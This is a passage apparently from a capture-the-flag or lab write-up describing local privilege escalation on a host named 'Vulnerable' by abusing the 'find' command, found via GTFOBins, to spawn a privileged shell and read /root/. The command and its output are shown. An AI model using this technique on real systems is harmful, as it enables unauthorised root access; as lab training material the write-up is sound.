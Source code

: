 checking with gtfobins I find that I can escalate privileges using the “find” command, 

uses find to run an interactive shell (/bin/sh), allowing escape from restricted environments. The -exec option runs /bin/sh, while -quit stops find after the first run, avoiding multiple instances.
![2025-02-10_13-46](https://github.com/user-attachments/assets/e5656653-b072-4530-bf13-151991198f85)
<br><br><br>


<pre><code> stoner@Vulnerable:~$ find . -exec /bin/sh -p \; -quit
bash-4.3$ ls /root/
root.txt </code></pre>
<br><br><br>

